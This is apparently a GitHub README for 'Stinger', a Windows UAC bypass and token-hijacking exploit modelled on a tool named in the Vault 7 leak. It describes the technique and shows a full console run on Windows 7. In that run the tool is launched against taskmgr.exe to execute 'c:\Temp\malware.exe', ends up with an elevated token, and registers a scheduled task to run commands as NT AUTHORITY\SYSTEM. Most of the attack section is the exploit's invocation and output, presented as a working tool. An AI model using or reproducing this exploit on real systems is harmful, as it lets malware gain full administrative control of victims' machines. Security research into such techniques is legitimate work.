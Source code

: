 ﻿# Stinger

CIA Vault7 leak describes Stinger[0] as a Privilege Escalation module in the "Fine Dining" toolset. Stinger
is a "UAC bypass that obtains the token from an auto-elevated process, modifies it, and reuses it to 
execute as administrator". This is an implementation of Stinger, including debugging routines and some
additional tradecraft to obtain `NT AUTHORITY\\SYSTEM` rights. The exploit works on Windows 7 through Windows 
10 to run privileged code through token hijacking of an autoelevated process (e.g. `Taskmgr.exe`) from 
a UAC restricted process. This technique to steal a privileged token and elevate a thread also works on 
Windows 11, however it is not possible to use it for CreateProcessWithLogonW which detects `BAD IMPERSONATION` 
or with CreateFile, Registry, Process, COM ITask*, Named Pipes etc as the operations fail with `ACESS_DENIED` 
or `E_BAD_IMPERSONATION`. This exploit closely resembles UAC Magic[1] and thus it is believed that Stinger is 
an implementation of UAC Magic based on the description and time which it was used within the CIA for modular 
malware in "Fine Dining". This is a tokenhijacking attack that bypasses UAC on Windows 7 -> Windows 10, and on 
Windows 11 gives only an elevated thread to further experiment with. This exploit leverages a COM object 
ITaskService from the privileged thread to run commands under `NT AUTHORITY\SYSTEM`. 

Here is an example of the UAC bypass being used on a vulnerable Windows 7 host. 

``` 
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\TestUser\Downloads>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Users\TestUser\Downloads>Stinger.exe taskmgr.exe cmd.exe /c c:\\Temp\\malware.exe
Show our process security context...
User: TestUser
Domain: TESTPC
User SID: S-1-5-21-3089230831-4110903467-601958294-1001
Checking token DACL...
Allowed ACE: GENERIC_ALL
Account: TESTPC\TestUser
SID: S-1-5-21-3089230831-4110903467-601958294-1001
Allowed ACE: GENERIC_ALL
Account: NT AUTHORITY\SYSTEM
SID: S-1-5-18
Allowed ACE: GENERIC_READ GENERIC_EXECUTE
LookupAccountSid failed: 1332
SID: S-1-5-5-0-107317
Token is not elevated.
Token is not restricted
Dumping token privileges...
[-] Disabled Privilege: SeShutdownPrivilege Attributes : 0
[+] Enabled Privilege: SeChangeNotifyPrivilege Attributes : 3
    This privilege is enabled by default.
[-] Disabled Privilege: SeUndockPrivilege Attributes : 0
[-] Disabled Privilege: SeIncreaseWorkingSetPrivilege Attributes : 0
[-] Disabled Privilege: SeTimeZonePrivilege Attributes : 0
Process ID: 3992
Successfully duplicated token
H4x0r1nG the token ...
Enabling privilege: SeIncreaseQuotaPrivilege
Enabling privilege: SeSecurityPrivilege
Enabling privilege: SeTakeOwnershipPrivilege
Enabling privilege: SeLoadDriverPrivilege
Enabling privilege: SeSystemProfilePrivilege
Enabling privilege: SeSystemtimePrivilege
Enabling privilege: SeProfileSingleProcessPrivilege
Enabling privilege: SeIncreaseBasePriorityPrivilege
Enabling privilege: SeCreatePagefilePrivilege
Enabling privilege: SeBackupPrivilege
Enabling privilege: SeRestorePrivilege
Enabling privilege: SeShutdownPrivilege
Enabling privilege: SeDebugPrivilege
Enabling privilege: SeSystemEnvironmentPrivilege
Enabling privilege: SeChangeNotifyPrivilege
Enabling privilege: SeRemoteShutdownPrivilege
Enabling privilege: SeUndockPrivilege
Enabling privilege: SeManageVolumePrivilege
Enabling privilege: SeImpersonatePrivilege
Enabling privilege: SeCreateGlobalPrivilege
Enabling privilege: SeIncreaseWorkingSetPrivilege
Enabling privilege: SeTimeZonePrivilege
Enabling privilege: SeCreateSymbolicLinkPrivilege
Dropping IL...
Initialized medium IL SID
Token lowered to medium integrity
COM init...
Attemping to bypass UAC with the token...
ImpersonateLoggedOnUser succeeded.. 
Dumping our new security context..
User: TestUser
Domain: TESTPC
User SID: S-1-5-21-3089230831-4110903467-601958294-1001
Checking token DACL...
Allowed ACE: GENERIC_ALL
Account: BUILTIN\Administrators
SID: S-1-5-32-544
Allowed ACE: GENERIC_ALL
Account: NT AUTHORITY\SYSTEM
SID: S-1-5-18
Allowed ACE: GENERIC_READ GENERIC_EXECUTE
LookupAccountSid failed: 1332
SID: S-1-5-5-0-107317
Token is elevated!
Token is not restricted
Dumping token privileges...
[+] Enabled Privilege: SeIncreaseQuotaPrivilege Attributes : 2
[+] Enabled Privilege: SeSecurityPrivilege Attributes : 2
[-] Disabled Privilege: SeTakeOwnershipPrivilege Attributes : 0
[-] Disabled Privilege: SeLoadDriverPrivilege Attributes : 0
[+] Enabled Privilege: SeSystemProfilePrivilege Attributes : 2
[+] Enabled Privilege: SeSystemtimePrivilege Attributes : 2
[+] Enabled Privilege: SeProfileSingleProcessPrivilege Attributes : 2
[+] Enabled Privilege: SeIncreaseBasePriorityPrivilege Attributes : 2
[+] Enabled Privilege: SeCreatePagefilePrivilege Attributes : 2
[-] Disabled Privilege: SeBackupPrivilege Attributes : 0
[-] Disabled Privilege: SeRestorePrivilege Attributes : 0
[+] Enabled Privilege: SeShutdownPrivilege Attributes : 2
[-] Disabled Privilege: SeDebugPrivilege Attributes : 0
[+] Enabled Privilege: SeSystemEnvironmentPrivilege Attributes : 2
[+] Enabled Privilege: SeChangeNotifyPrivilege Attributes : 3
    This privilege is enabled by default.
[+] Enabled Privilege: SeRemoteShutdownPrivilege Attributes : 2
[+] Enabled Privilege: SeUndockPrivilege Attributes : 2
[+] Enabled Privilege: SeManageVolumePrivilege Attributes : 2
[-] Disabled Privilege: SeImpersonatePrivilege Attributes : 0
[+] Enabled Privilege: SeCreateGlobalPrivilege Attributes : 3
    This privilege is enabled by default.
[+] Enabled Privilege: SeIncreaseWorkingSetPrivilege Attributes : 2
[+] Enabled Privilege: SeTimeZonePrivilege Attributes : 2
[+] Enabled Privilege: SeCreateSymbolicLinkPrivilege Attributes : 2
Attemping to run command as NT AUTHORITY\SYSTEM via COM...
Created ITaskService..
Connected to ITaskService..
Registering the evil Task..
Task created successfully.
Executed command as NT AUTHORITY\SYSTEM... wait for cleanup
Task deleted successfully. 
```

Your commands have executed under `NT AUTHORITY\SYSTEM`. Happy New Year!

## References

* [0]: [Fine Dining Tool Module List, Vault 7, Wikileaks](https://wikileaks.org/ciav7p1/cms/page_20251107.html).
* [1]: [Reading your way around UAC, James Forshaw](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html).

## License

These files are available under a Attribution-NonCommercial-NoDerivatives 4.0 International license.
